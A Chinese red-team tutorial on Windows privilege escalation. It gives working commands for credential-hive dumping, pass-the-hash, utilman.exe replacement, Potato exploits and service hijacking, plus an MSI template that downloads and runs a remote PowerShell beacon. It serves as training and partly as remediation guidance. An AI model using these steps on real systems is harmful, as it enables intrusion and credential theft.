

# [Red Team: Privilege Escalation](https://www.raingray.com/archives/2346.html)

提权是为了收集更多信息辅助渗透，不是仅仅为了提权拿到权限。想清楚在做什么很重要。

提权是从当前低权限 Shell，提升到管理员权限。也不一定非得是打漏洞或利用配置不当的缺陷，也可以是通过收集到的账户密码登录发现是高权限账户完成提权操作。

## 目录

-   [目录](#%E7%9B%AE%E5%BD%95)
-   [1 Windows](#1+Windows)
    -   [1.1 CVE Exploit](#1.1+CVE+Exploit)
    -   [1.2 Windows Privilege](#1.2+Windows+Privilege)
        -   [1.2.1 SeBackupPrivilege](#1.2.1+SeBackupPrivilege)
        -   [1.2.2 SeRestorePrivilege](#1.2.2+SeRestorePrivilege)
        -   [1.2.3 SeTakeOwnershipPrivilege](#1.2.3+SeTakeOwnershipPrivilege)
        -   [1.2.4 SeImpersonatePrivilege](#1.2.4+SeImpersonatePrivilege)
        -   [1.2.5 SeAssignPrimaryTokenPrivilege⚒️](#1.2.5+SeAssignPrimaryTokenPrivilege%E2%9A%92%EF%B8%8F)
        -   [1.2.6 SeTcbPrivilege⚒️](#1.2.6+SeTcbPrivilege%E2%9A%92%EF%B8%8F)
        -   [1.2.7 SeCreateTokenPrivilege⚒️](#1.2.7+SeCreateTokenPrivilege%E2%9A%92%EF%B8%8F)
        -   [1.2.8 SeLoadDriverPrivilege⚒️](#1.2.8+SeLoadDriverPrivilege%E2%9A%92%EF%B8%8F)
        -   [1.2.9 SeDebugPrivilege⚒️](#1.2.9+SeDebugPrivilege%E2%9A%92%EF%B8%8F)
    -   [1.3 Service](#1.3+Service)
        -   [1.3.1 Unquoted Service Path](#1.3.1+Unquoted+Service+Path)
        -   [1.3.2 Weak Service Permissions](#1.3.2+Weak+Service+Permissions)
    -   [1.4 AlwaysInstallElevated](#1.4+AlwaysInstallElevated)
    -   [1.5 UAC Bypass](#1.5+UAC+Bypass)
        -   [1.5.1 GUI](#1.5.1+GUI)
            -   [msfconfig](#msfconfig)
            -   [azman.msc](#azman.msc)
        -   [1.5.2 CLI](#1.5.2+CLI)
            -   [Fodhelper](#Fodhelper)
            -   [UACME 利用工具](#UACME+%E5%88%A9%E7%94%A8%E5%B7%A5%E5%85%B7)
        -   [1.5.3 DLL Hijacking⚒️](#1.5.3+DLL+Hijacking%E2%9A%92%EF%B8%8F)
            -   [SystemPropertiesAdvanced.exe](#SystemPropertiesAdvanced.exe)
            -   [msdt.exe](#msdt.exe)
    -   [1.6 Scheduled Task](#1.6+Scheduled+Task)
    -   [1.7 DLL Hijacking⚒️](#1.7+DLL+Hijacking%E2%9A%92%EF%B8%8F)
    -   [1.8 Startup Folder](#1.8+Startup+Folder)
-   [2 Linux⚒️](#2+Linux%E2%9A%92%EF%B8%8F)
    -   [2.1 SUID](#2.1+SUID)
    -   [2.2 sudo 配置滥用](#2.2+sudo+%E9%85%8D%E7%BD%AE%E6%BB%A5%E7%94%A8)
    -   [2.3 内置编程语言](#2.3+%E5%86%85%E7%BD%AE%E7%BC%96%E7%A8%8B%E8%AF%AD%E8%A8%80)
    -   [2.4 Baron Samedit（CVE-2021-3156）](#2.4+Baron+Samedit%EF%BC%88CVE-2021-3156%EF%BC%89)
    -   [2.5 Dirty COW（CVE-2016-5195）](#2.5+Dirty+COW%EF%BC%88CVE-2016-5195%EF%BC%89)
    -   [2.6 Dirty Pipe（CVE-2022-0847）](#2.6+Dirty+Pipe%EF%BC%88CVE-2022-0847%EF%BC%89)
    -   [2.7 Polkit（CVE-2021-4034）](#2.7+Polkit%EF%BC%88CVE-2021-4034%EF%BC%89)
    -   [2.8 pupy](#2.8+pupy)
-   [3 Database](#3+Database)
-   [4 总结](#4+%E6%80%BB%E7%BB%93)
-   [参考资料](#%E5%8F%82%E8%80%83%E8%B5%84%E6%96%99)

## 1 Windows

老说提权提权的，Windows 到底有哪些[账户](https://learn.microsoft.com/en-us/windows/security/identity-protection/access-control/local-accounts)和权限？

Service Account 不能登录系统：

-   NetWork Service，网络服务账户
-   Local Service，本地服务账户
-   SYSTEM，最高权限用户

Local Account：

-   User，普通用户，默认创建的用户。
-   Administrator，管理员用户，安装完系统默认自带的

### 1.1 CVE Exploit

大多数没能力挖 Zero-day 漏洞，根据补丁和现有软件 CVE 情况优先从 MSF 中找 Exploit，没有去网上找公开的，一个不行多换几个。

需要注意的是，涉及系统内核提权不管 Linux 还是 Windows 运行 Exp 存在把机器搞挂的风险。

### 1.2 Windows Privilege

有哪些权限：[https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)  
对应利用思路：

-   [https://github.com/gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)
-   [https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E4%B9%9D%E7%A7%8D%E6%9D%83%E9%99%90%E7%9A%84%E5%88%A9%E7%94%A8](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E4%B9%9D%E7%A7%8D%E6%9D%83%E9%99%90%E7%9A%84%E5%88%A9%E7%94%A8)

#### 1.2.1 SeBackupPrivilege

SeBackupPrivilege 是需要针对一些备份操作用户设置的权限，在域中是 Backup Operators 组成员，拥有此权限后可以读取系统上所有文件或目录内容。Windows 10 则不同，需要高完整度才有此权限，因此需要绕过 UAC。

```plaintext
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
......
```

因此可以导出注册表中哈希。

```plaintext
reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
```

将其拖到本机读取哈希。

```plaintext
python /impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

如果有此用户账户甚至可以远程导哈希。

```plaintext
python /impacket/examples/secretsdump.py <UserName>:<Password>@<Host>
```

获取到哈希进行 PTH。

```plaintext
python /impacket/examples/psexec.py -hashes <Hash> <UserName>@<Host>
```

#### 1.2.2 SeRestorePrivilege

SeRestorePrivilege 权限用于给恢复设置的用户设置的，域中是 Backup Operators 组成员，启用此权限后可以向系统上任何地方写入内容。Windows 10 还是一样，需要高完整度才有此权限。

可以尝试 DLL 劫持，很多应用都是 System32 下的 DLL。

或者尝试替换 utilman.exe 成为 System。

> 1.  Launch PowerShell/ISE with the SeRestore privilege present.
> 2.  Enable the privilege with [Enable-SeRestorePrivilege](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1)).
> 3.  Rename utilman.exe to utilman.old
> 4.  Rename cmd.exe to utilman.exe
> 5.  Lock the console and press Win+U
> 
> [https://github.com/gtworek/Priv2Admin#:~:text=Microsoft%20here.-,SeRestore,-Admin](https://github.com/gtworek/Priv2Admin#:~:text=Microsoft%20here.-,SeRestore,-Admin)

#### 1.2.3 SeTakeOwnershipPrivilege

SeTakeOwnershipPrivilege 权限有权设置任何内容的所有者。这个所有者和 Linux 文件 ownner 一致，代表你当前有权管理它。


Windows 中依旧只有高完整度权限才有此权限。

```plaintext
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
......
```

通常用来替换以 SYSTEM 权限运行的 exe，或者对系统高权限运行软件（如 Listary）进行 DLL 劫持。这里演示 Priv2Admin 提到的做法对锁屏状态下的辅助功能 utilman.exe 进行替换，适合目标有 RDP 或者能接触实体机的场景下利用。

先获取 utilman.exe 所有者。

```plaintext
C:\Windows\system32>takeown /f C:\windows\system32\utilman.exe

SUCCESS: The file (or folder): "C:\windows\system32\utilman.exe" now owned by user "WPRIVESC2\THMTakeOwnership".
```

默认情况下当前用户是没权进行更改操作的。需要赋予权限。

```plaintext
C:\Windows\system32>icacls C:\windows\system32\utilman.exe
C:\windows\system32\utilman.exe NT SERVICE\TrustedInstaller:(F)
                                BUILTIN\Administrators:(RX)
                                NT AUTHORITY\SYSTEM:(RX)
                                BUILTIN\Users:(RX)
                                APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(RX)
                                APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(RX)

Successfully processed 1 files; Failed processing 0 files

C:\Windows\system32>whoami
raingray\gbb

C:\Windows\system32>icacls C:\windows\system32\utilman.exe /grant %username%:F
processed file: C:\windows\system32\utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\Windows\system32>icacls C:\windows\system32\utilman.exe
C:\windows\system32\utilman.exe raingray\gbb:(F)
                                NT SERVICE\TrustedInstaller:(F)
                                BUILTIN\Administrators:(RX)
                                NT AUTHORITY\SYSTEM:(RX)
                                BUILTIN\Users:(RX)
                                APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(RX)
                                APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(RX)

Successfully processed 1 files; Failed processing 0 files
```

将原文件备份，并使用 cmd.exe 进行替换。

```plaintext
C:\Windows\system32>copy C:\windows\system32\utilman.exe C:\windows\system32\tasks\utilman.exe.back
        1 file(s) copied.

C:\Windows\system32>copy /y C:\windows\system32\cmd.exe C:\windows\system32\utilman.exe
        1 file(s) copied.
```

在锁屏界面 Win + U 或者点击右下角辅助功能即可弹出 cmd.exe，获取到 SYSTEM 权限。

#### 1.2.4 SeImpersonatePrivilege

在遇到 WebShell 情况下 IIS 或者是 SQL Server 这种 Windows 服务账户，可以先查询是否启用 SeImpersonatePrivilege 模拟权限，启用就使用 Potato Family 提升到 SYSTEM。

-   Rotten Potato
    
-   [Juicy Potato](https://3gstudent.github.io/Windows%E6%9C%AC%E5%9C%B0%E6%8F%90%E6%9D%83%E5%B7%A5%E5%85%B7Juicy-Potato%E6%B5%8B%E8%AF%95%E5%88%86%E6%9E%90)
    
-   Pipe Potato
    
-   [Sweet Potato](https://github.com/CCob/SweetPotato)，打包 Rotten Potato、Juicy Potato、Sweet Potato 利用方法，做了整合，方便一键利用，真香！
    
    直接上传上去挨个服务试。
    
    ```plaintext
     SweetPotato.exe -p beacon.exe
     SweetPotato.exe -e EfsRpc -p beacon.exe
     SweetPotato.exe -e DCOM -p beacon.exe
     SweetPotato.exe -e WinRM -p beacon.exe
    ```
    
-   [GodPotato](https://github.com/BeichenDream/GodPotato)，2023 年在历史土豆汇总的基础上又研究了新的 DCOM 利用方式。
    

#### 1.2.5 SeAssignPrimaryTokenPrivilege⚒️

#### 1.2.6 SeTcbPrivilege⚒️

#### 1.2.7 SeCreateTokenPrivilege⚒️

#### 1.2.8 SeLoadDriverPrivilege⚒️

#### 1.2.9 SeDebugPrivilege⚒️

### 1.3 Service

本章节所有漏洞 可以用 [powerup.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) 自动检测利用。

#### 1.3.1 Unquoted Service Path

在命令行里运行一条命令.

```plaintext
c:\program files\sub dir\program name
```

因为没加引号，系统以空格作为分隔符，按照如下顺序查找应用，而其他的内容则作为参数传入。

> 1.  c:\\program.exe
> 2.  c:\\program files\\sub.exe
> 3.  c:\\program files\\sub dir\\program.exe
> 4.  c:\\program files\\sub dir\\program name.exe
> 
> [CreateProcessA function (processthreadsapi.h) - Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)

只要我们把 Payload 放在对应目录下，服务重启时 Payload 会被执行。现实没有这么完美，它还有诸多利用条件，这里完整列出：

-   服务的二进制路径没有添加引号并且目录中含有空格
-   服务程序对应目录可写
-   服务能够启动，不管是 Auto 让机器重启登录启动服务，还是当前账户有权限主动重启或启动。

下面从服务创建、利用到修复，记录整个过程。

1.创建脆弱服务

使用管理员权限[创建服务](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create)。不使用 obj 选项设置启动服务时用的用户默认使用 LocalSystem（SYSTEM）权限，如果要使用其他使用运行可以 `obj= .\<UserName> password= <password>`。

```plaintext
C:\Users\gbb>SC CREATE ServicePrivilegeEscalation binpath= "E:\program files\sub dir\program name.exe" DisplayName= "Service Privilege Escalation" start= auto
[SC] CreateService 成功
```

2.枚举服务信息，确认漏洞存在。

CMD 查询。

```plaintext
C:\Users\gbb>cmd /c wmic service get name,displayname,pathname,startmode | findstr -I "auto" |findstr /I /V "C:\Windows" | findstr /i /v """
Adguard Service                                                   Adguard Service                           D:\AdGuard\AdguardSvc.exe


     Auto
Service Privilege Escalation                                      ServicePrivilegeEscalation                E:\program files\sub dir\program name.exe


     Auto
```

PowerShell 查询。

```plaintext
PS C:\Users\gbb> Get-WmiObject win32_service | select Name,PathName,StartMode,StartName | where {$_.StartMode -ne "Disabled" -and $_.StartName -eq "LocalSystem" -and $_.PathName -notmatch "`"" -and $_.PathName -notmatch "C:\\Windows"} | Format-List


Name      : Adguard Service
PathName  : D:\AdGuard\AdguardSvc.exe
StartMode : Auto
StartName : LocalSystem

Name      : ServicePrivilegeEscalation
PathName  : E:\program files\sub dir\program name.exe
StartMode : Auto
StartName : LocalSystem
```

可以看到服务 BINARY\_PATH\_NAME 路径没有加引号。通过 SERVICE\_START\_NAME 可以看到服务使用 LocalSystem 最高权限启动，如果是其他用户启动，这里就会显示对应的用户名。

```plaintext
C:\Users\gbb>SC qc ServicePrivilegeEscalation
[SC] QueryServiceConfig 成功

SERVICE_NAME: ServicePrivilegeEscalation
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : E:\program files\sub dir\program name.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Service Privilege Escalation
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

3.检查当前用户写入权限

前面提到还得有权限对目录有写入权限，这里用 [accesschk](https://learn.microsoft.com/zh-cn/sysinternals/downloads/accesschk) 查询目录权限。为了安全起见避免第一次运行提示接受许可


需按照图中提示，第一次运行用 /accepteula 接受许可。

```plaintext
accesschk.exe /accepteula
```

查看这几个目录是否能写入：

-   E:\\
-   E:\\program files\\
-   E:\\program files\\sub dir\\

使用 accesschk 验证当前用户 raingray\\test 是否有这三个目录写入权限。选项 -d 只检查目录权限，-w 测试是否可写，-s 递归遍历。有权限写入则展示出目录，R 是 Read，W 为 Write。

```plaintext
E:\Downloads>whoami
raingray\test

E:\Downloads>.\accesschk.exe raingray\test -nobanner -dw E:\
RW E:\

E:\Downloads>.\accesschk.exe raingray\test -nobanner -dsw "E:\program files"
RW E:\program files
RW E:\program files\sub dir
```

没有权限时，不展示目录结果。

```plaintext
E:\Downloads>.\accesschk.exe raingray\test -nobanner -dw C:\windows
No matching objects found.
```

4.生成 Payload 并写入对应目录

需要注意的是服务所用的程序需要跟 Service Control Manager（SCM）通信，用普通的 EXE 运行会失败。创建 Service Payload。


尝试在 E 盘写入对应 Payload：

-   E:\\program.exe
-   E:\\program files\\sub.exe
-   E:\\program files\\sub dir\\program.exe

经过测试重启机器、启动服务、重启服务这三个目录都能以 SYSTEM 权限成功上线。

如果没有启动成功很可能是启动时没权限读取运行，可以将 Payload 放入可读的目录，并用 icacls 给 Payload 赋上所有用户都可运行的权限。

```plaintext
icacls "E:\program.exe" /grant Everyone:F
```

6.修复方案

那如何防御？有没有听过很多程序安装文档中提到不允许安装的目录存在空格，这是种方法。最好还是在创建服务时给出引号，杜绝隐患。

```plaintext
sc create <name> binpath= "\"E:\program files\sub dir\program name.exe\""
```

如果已经存在漏洞如何修补？可以手工修改服务程序绝对路径为双引号。

```plaintext
C:\Users\gbb>sc config ServicePrivilegeEscalation binPath="\"E:\program files\sub dir\program name.exe\""
[SC] ChangeServiceConfig 成功

C:\Users\gbb>sc qc ServicePrivilegeEscalation
[SC] QueryServiceConfig 成功

SERVICE_NAME: ServicePrivilegeEscalation
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "E:\program files\sub dir\program name.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Service Privilege Escalation
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

#### 1.3.2 Weak Service Permissions

1.覆盖服务可执行文件

服务对应程序当前账户有权限修改，通过覆盖原有程序，让服务重启后自动执行 Payload 进行提权。

使用 accesschk -w 选项检查有没写入权限，有权则回显内容。

```plaintext
E:\Downloads>sc qc "Adguard Service"
[SC] QueryServiceConfig 成功

SERVICE_NAME: Adguard Service
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : D:\AdGuard\AdguardSvc.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Adguard Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Users\gbb>  "Adguard Service"
E:\Downloads>whoami
raingray\gbb

E:\Downloads>accesschk raingray\gbb -nobanner -w D:\\AdGuard\\AdguardSvc.exe
RW D:\AdGuard\AdguardSvc.exe
```

icacls 也可以查询权限，而且自带应用，不需要上传到目标系统。

```plaintext
E:\Downloads>icacls D:\\AdGuard\\AdguardSvc.exe
D:\\AdGuard\\AdguardSvc.exe BUILTIN\Administrators:(I)(F)
                            NT AUTHORITY\SYSTEM:(I)(F)
                            NT AUTHORITY\Authenticated Users:(I)(M)
                            BUILTIN\Users:(I)(RX)
```

F 代表 Full Control 完整控制权限，R 只有读取权限，W 只有写入权限，RX 读取和执行权限，M 能够读取并拥有修改权限，I 则表示权限继承自父目录。更多权限见文档 [icacls - remarks](https://learn.microsoft.com/zh-cn/windows-server/administration/windows-commands/icacls#remarks)。

来解读下这些去权限什么意思：

-   BUILTIN\\Administrators 当前机器内置管理员组有全部权限
-   NT AUTHORITY\\SYSTEM 用户 SYSTEM 有完整权限
-   NT AUTHORITY\\Authenticated Users 认证过的用户修改权限
-   BUILTIN\\Users 系统内置普通用户组有读和执行权限。

确认有权限先备份原有应用。

```plaintext
E:\Downloads>move D:\\AdGuard\\AdguardSvc.exe  D:\AdGuard\AdguardSvc_back.exe
移动了         1 个文件。
```

将 Payload 移动到指定目录。

```plaintext
E:\Downloads>move E:\Desktop\AdguardSvc.exe D:\AdGuard\AdguardSvc.exe
移动了         1 个文件。
```

需要注意，让服务重启上线，只有 SYSTEM 用户和 Administrator 组内用户才能执行停止、启动服务，具体权限详情可以通过 Process Hacker 查询。这里就用 accesschk 查服务权限。

```plaintext
PS C:\Users\gbb> E:\Downloads\accesschk64.exe /accepteula -nobanner -lc "Adguard Service"
Adguard Service
  DESCRIPTOR FLAGS:
      [SE_DACL_PRESENT]
      [SE_SACL_PRESENT]
      [SE_SELF_RELATIVE]
  OWNER: NT AUTHORITY\SYSTEM
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [1] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  [2] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\INTERACTIVE
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [3] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SERVICE
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
```

这些权限命名方式，见名知意，如果不太理解可以查《[服务安全和访问权限 - 服务的访问权限](https://learn.microsoft.com/zh-cn/windows/win32/services/service-security-and-access-rights#access-rights-for-a-service)》文档。

最后你要想办法重启服务，如果你有权，可以用下面命令进行操作。

```plaintext
E:\Downloads>sc stop 服务名
E:\Downloads>sc start 服务名
```

2.修改服务程序路径

服务的程序路径，当前账户有权限修改服务，将路径改成 Payload 路径提权。

先创建一个服务使用 test 用户运行。

```plaintext
C:\Users\gbb>SC.exe CREATE ServicePrivilegeEscalation binpath= "\"E:\program files\sub dir\program name.exe\"" DisplayName= "Service Privilege Escalation" start= auto obj= .\test password= 123123
[SC] CreateService 成功
```

这里查询服务发现启动服务的用户是一普通用户 test。

```plaintext
C:\Users\gbb>sc qc ServicePrivilegeEscalation
[SC] QueryServiceConfig 成功

SERVICE_NAME: ServicePrivilegeEscalation
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "E:\program files\sub dir\program name.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Service Privilege Escalation
        DEPENDENCIES       :
        SERVICE_START_NAME : .\test
```

设置 BUILTIN\\Users 用户组拥有 ServicePrivilegeEscalation 服务 Full Control 权限，为了方便操作就用 Process Hacker 来设置。


当然你也可以使用安全描述符来设置服务权限，这方面资料比较少，在网上找到了一篇回答供你参考：How do I grant start/stop/restart permissions on a service to an arbitrary user or group on a non-domain-member server?\]([https://serverfault.com/a/187691](https://serverfault.com/a/187691))。

通过查询当前用户 power 对 ServicePrivilegeEscalation 的权限，发现能够管理。并且查询服务权限详情是将 BUILTIN\\Users 设置为了 Full Control。

```plaintext
PS C:\> E:\Downloads\accesschk64.exe power -nobanner -wc ServicePrivilegeEscalation
RW ServicePrivilegeEscalation
PS C:\> E:\Downloads\accesschk64.exe -nobanner -lc ServicePrivilegeEscalation
ServicePrivilegeEscalation
  DESCRIPTOR FLAGS:
      [SE_DACL_PRESENT]
      [SE_SACL_PRESENT]
      [SE_SELF_RELATIVE]
  OWNER: NT AUTHORITY\SYSTEM
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [1] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  [2] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\INTERACTIVE
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [3] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SERVICE
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```

因此任意一个用户都有权限修改服务程序路径。这里将其设置为 Payload，并把运行服务的用户设置为 SYSTEM。最后重启服务获得 SYSTEM 权限。

```plaintext
E:\Downloads>sc config ServicePrivilegeEscalation binpath= "\"C:\Windows\Tasks\beacon.exe\"" obj= LocalSystem
[SC] ChangeServiceConfig SUCCESS
```

*OPSEC：要注意不管是替换程序还是修改程序路径，最后都要恢复原样，避免服务异常。*

### 1.4 AlwaysInstallElevated

AlwaysInstallElevated 提权不是很新的利用手法，查到的资料最早可以追溯到 2013 年 Scott Sutherland 写的文章 [Bypassing Anti-Virus with Metasploit MSI Files](https://www.netspi.com/blog/technical/network-penetration-testing/bypassing-anti-virus-with-metasploit-msi-files/)。

原理是管理员在组策略启动 AlwaysInstallElevated 规则，在安装 MSI 包时会以 SYSTEM 权限运行。具体怎么启用，有两种方法，第一种是 gpedit.exe 中开启两条组策略：

-   计算机配置 -> 管理模板 -> Windows组件 -> Windows Installer -> 始终以提升的权限进行安装
    
-   用户配置 -> 管理模板-> Windows组件 -> Windows Installer -> 始终以提升的权限进行安装
    

> This option is equivalent to granting full administrative rights, which can pose a massive security risk. Microsoft strongly discourages the use of this setting.
> 
> [AlwaysInstallElevated - Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated)

启动组策略后自动在注册表创建对应选项，第一行计算机配置，第二行用户配置。

```plaintext
PS C:\Users\123> reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
C:\Users\123\Desktop>reg query HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

没开启是查询不到的。

```plaintext
PS C:\Users\123> reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
错误: 系统找不到指定的注册表项或值。
PS C:\Users\123> reg query HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
错误: 系统找不到指定的注册表项或值。
```

查询注册表的时 RootKey 也可以简写查询

```plaintext
PS C:\Users\123> HKEY_LOCAL_MACHINE^C
PS C:\Users\123> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
PS C:\Users\123> HKEY_CURRENT_USER^C
PS C:\Users\123> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```

第二种启用方法，是使用管理员权限手动设置两项注册表，设置数值类型 REG\_DWORD，赋值为 1。

```plaintext
reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
```

因此在实战中，可以通过查询注册表来确认能不能提权，这就是它的利用条件。实际利用方式很简单，使用 [MSI-AlwaysInstallElevated](https://github.com/KINGSABRI/MSI-AlwaysInstallElevated) 项目提供的 MSI 模板 [alwaysInstallElevated-2.wxs](https://github.com/KINGSABRI/MSI-AlwaysInstallElevated/blob/master/WXS-Templates/alwaysInstallElevated-2.wxs)，编制 MSI 安装包即可。

```xml
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
   <Product 
      Id="*" 
      UpgradeCode="12345678-1234-1234-1234-111111111111" 
      Name="Example Product Name" 
      Version="0.0.1" 
      Manufacturer="Example Company Name" 
      Language="1033">

      <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package" InstallPrivileges="elevated"/>
      <Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>


      <Directory Id="TARGETDIR" Name="SourceDir">
         <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222"/>               
      </Directory>

      <Feature Id="DefaultFeature" Level="1">
         <ComponentRef Id="ApplicationFiles"/>
      </Feature>

      <CustomAction 
         Id          ="a_system_shell"                     
         Directory   ="TARGETDIR"
         ExeCommand  ='powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(\"http://<Host>/beacon.ps1\"))"'
         Return      ="asyncNoWait"
         Execute     ="deferred"
         Impersonate ="no"
      />

      <CustomAction 
         Id          ="z_gonna_fail"                     
         Directory   ="TARGETDIR"
         ExeCommand  ='msitall'
         Return      ="check"
         Execute     ="deferred"
         Impersonate ="no"
      />

      <InstallExecuteSequence>
         <Custom Action="a_system_shell" After="InstallInitialize" /> 
         <Custom Action="z_gonna_fail" Before="InstallFinalize" /> 
      </InstallExecuteSequence>
   </Product>
</Wix>
```

这个模板 ExeCommand 处可以自定义要执行的应用程序，这里指定两条。

```plaintext
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://<Host>/beacon.ps1'))"

deferred
```

为什么执行两条命令？根据模板 README.md 说明，防止安装时真的把包安到系统里，需要执行一条不存在命令，当命令不存在会安装失败（缺点是安装会生成日志，后面需要手动删除）。

最后使用 [wix3](https://github.com/wixtoolset/wix3) 工具包打包，在工具目录生成 1.wixobj 文件。想指定输出位置就添加 -out 选项。

```plaintext
D:\raingray\wix311-binaries> candle E:\desktop\1.wxs
Windows Installer XML Toolset Compiler version 3.11.2.4516
Copyright (c) .NET Foundation and contributors. All rights reserved.

1.wxs
```

再将它打包成 MSI 包。想指定输出位置也是指定 -out。

```plaintext
